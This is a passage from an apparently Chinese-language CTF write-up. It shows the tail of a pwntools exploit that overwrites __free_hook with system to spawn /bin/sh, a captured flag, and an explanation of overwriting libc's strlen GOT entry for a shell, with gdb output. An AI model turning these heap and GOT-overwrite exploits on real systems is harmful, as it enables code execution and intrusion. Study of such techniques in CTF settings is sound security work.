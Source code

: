 ```python

# push to modify sp
free_hook = libcbase + 0x1eee48
stack = codebase + 0xc880
system = libcbase + 0x52290
build_reg1_0xdeadbeef = build_reg1((free_hook - stack) // 8)
build_reg1_system = build_reg1(system)
context.log_level = "info"
read_opcode(1 + len(build_reg1_0xdeadbeef) + 1 + 1 + len(build_reg1_system) + 1, 
            [u64(b'/bin/sh\x00')] + 
            build_reg1_0xdeadbeef + [push_r1] + [print_r0] + build_reg1_system + [push_r1])
context.log_level = "debug"
execute_opcode()

# chunk4 (next chunk)
conn.sendlineafter(b'> ', b'1')
conn.sendlineafter(b'Size: ', str(4).encode())

conn.interactive()
```

`CGGC{00b_l3ak_and_0v3rwr1t3_h00k}`

### oneshot

題目一開始就給 printf 的 address，直接省略了 leak libc 的步驟，而且還可以輸入任一 address，再用 fget 接收長度 224 的 input，可以任意位置寫入

一開始是在想有沒有機會用 one_gadget 拿到 shell 權限，但感覺機率不大就沒有嘗試

後來我是先用 gdb 查看 vmmap 中 libc 的 `rw-`(可寫) 區段，看看有沒有什麼可以修改的東西，就看到有 libc GOT 表可寫，就想到好像可以改寫 libc 的 GOT 表
![Imgur](https://imgur.com/N0mTRpt.png)

參考 [HackTricks](https://book.hacktricks.xyz/binary-exploitation/arbitrary-write-2-exec/www2exec-atexit#other-mangled-pointers-in-__run_exit_handlers) 也有提到可以改寫 strlen 的 GOT 表去指向 system function，且題目在 fget 之後也剛好有 call 到 puts function

> Strlen2system
Another common technique is to overwrite the `strlen` GOT address to point to `system`, so if this function is called with user input it's posisble to pass the string `"/bin/sh"` and get a shell.
Moreover, if `puts` is used with user input, it's possible to overwrite the `strlen` GOT address to point to `system` and pass the string `"/bin/sh"` to get a shell because `puts` will call `strlen` with the user input.

不過就算可以改寫到 strlen 的 GOT 表，但卻沒有 /bin/sh 可以當參數，所以又卡了一陣子，後來發現了這個 [GitHub repo](https://book.hacktricks.xyz/binary-exploitation/arbitrary-write-2-exec/www2exec-atexit#other-mangled-pointers-in-__run_exit_handlers) 說明了達成 libc 任意寫後，如何改寫 GOT 表，直接拿到 shell 權限，且檢查題目的 libc 版本也剛好 <= 2.35，

題目有限制 payload 的長度，但還是可以直接用 repo 裡面給的 fx3 的 template 去 get shell

但我之前對 libc 的 GOT 表不太熟悉，用 gdb 觀察也是一堆 `<*ABS*@got.plt>`，看不出個所以然，所以我就用 gdb 分析，直接 si 進入 puts 觀察 strlen 的 GOT 在哪個 address

下面這行就是在 call strlen function，繼續 si 就能找到 GOT 的 address
```bash
0x7f9c5e95de63 <puts+19>        call   0x7f9c5e905490 *ABS*+0xa86a0@plt

# 繼續 si 應該會看到這個，這個 098 結尾的就是 strlen 的 GOT address 
# 這樣就能知道跟 GOT base address 的 offset 了
0x7f9c5eaf7098 *ABS*@got.plt
```
